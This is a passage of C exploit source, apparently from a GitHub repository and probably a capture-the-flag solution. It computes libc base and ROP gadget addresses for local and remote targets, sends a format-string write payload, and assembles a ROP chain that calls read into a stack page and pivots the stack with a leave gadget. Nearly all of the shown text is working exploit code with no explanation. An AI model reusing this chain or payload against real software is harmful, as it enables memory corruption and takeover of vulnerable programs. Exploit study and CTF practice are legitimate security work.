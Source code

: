 ```c
        puts("\n=============================================");
        
        // remove \x00 in the leaked data so we can use strstr to locate the target

        puts("[+] Init the target");
        init_target();
        
        size_t base,rdi,rsi,rdx,mprotect,gets,rbp,leave,read_addr;
        if(LOCAL){
            base = leaked_libc-(0x7ffff7e96992-0x00007ffff7d82000);
            rdi  = 0x000000000002a3e5+base;
            rsi  = 0x000000000002be51+base;
            rdx  = 0x000000000011f497+base; // pop rdx pop r12
            leave = 0x00000000000562ec+base;
            mprotect = 0x7ffff7ea0c50+base-0x00007ffff7d82000;
            gets = 0x7ffff7e025a0+base-0x00007ffff7d82000;
            rbp = 0x000000000002a2e0+base;
            read_addr = 0x7ffff7e96980-0x7ffff7d82000+base;
        }
        else{            
            base = leaked_libc-(0x7ffff7eb6a22-0x00007ffff7db9000);
            rdi  = 0x000000000002dad2+base;
            rsi  = 0x000000000002f2c1+base;
            rdx  = 0x00000000001073d7+base; // pop rdx pop r12
            rbp  = 0x000000000002da00+base;
            leave = 0x0000000000052f2f+base;
            mprotect = 1076112+base;
            gets = 497392+base;
            read_addr = 1038864+base;
            
        }
        int ct = 0x22;
        loadgadget(0,gets+6);
        char *final = malloc(0x40);
        memset(final,0,0x40);
        snprintf(final,0x40,"%%%dc%%43$hhn\n",0x4);
        do_send(final);
        
        char* x = malloc(0x1000);
        size_t *ptr = x;

        if(LOCAL)
            ct = 0x4f0;
        else
            ct = 0x4c0; 
        ct = ct/8;

        ptr[ct++] = rdi;
        ptr[ct++] = 0;
        ptr[ct++] = rsi;
        ptr[ct++] = (leaked_stack>>12<<12)+0x800-0x1000;
        ptr[ct++] = rdx;
        ptr[ct++] = 0x800;
        ptr[ct++] = 0;
        ptr[ct++] = read_addr;
        ptr[ct++] = rbp;
        ptr[ct++] = (leaked_stack>>12<<12)+0x800-8-0x1000;
        ptr[ct++] = leave;
        x[ct*8] = '\n';
        write(fd_send[1],x,ct*8+1);
            
        char *yyy = malloc(0x1000);
        ptr = yyy;
```